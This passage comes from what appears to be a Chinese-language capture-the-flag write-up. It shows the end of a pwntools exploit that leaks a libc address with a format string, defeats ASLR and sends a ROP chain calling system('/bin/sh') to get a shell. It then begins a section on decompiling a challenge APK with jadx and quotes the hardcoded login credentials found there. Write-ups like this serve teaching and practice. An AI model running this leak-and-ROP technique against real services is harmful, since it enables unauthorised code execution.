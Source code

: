 ```python
    r.sendlineafter(delim=b"Leave a response:", data=b"%p")
    
    r.recvuntil(b"Your Response:")
    r.recvline()
    lib_base = int(r.recvline(keepends=False).decode(), 16) - leak_offset
    success("ASLR base: "+hex(lib_base))
    
    pop_rdi = p64(lib_base + 0x000000000010f75b)
    binsh = p64(lib_base + 0x1cb42f)
    ret = p64(lib_base + 0x000000000002882f)
    system = p64(lib_base + 0x0000000000058740)
    payload = b"A" * 0x30 + b"B" * 0x8 + pop_rdi + binsh + ret + system
    
    r.sendlineafter(delim=b".", data=b"2")
    
    r.sendlineafter(delim=b"response:", data=payload)
    r.interactive()
    
    r.close()
    # print(hex(lib_base))
    # r.interactive()

if __name__ == "__main__":
    main()
```

## ShadowVault
題目給了一個 .apk檔，裝好後打開發現是一個登入頁面

![login page](../assets/img/ShadowVault-1.png)

用 [jadx](https://github.com/skylot/jadx) 反編譯後找到 username 和 password
```java
...
final String username = "Player118";
final String password = "Gv8@kz#1qP$Xy!tM";
...
```
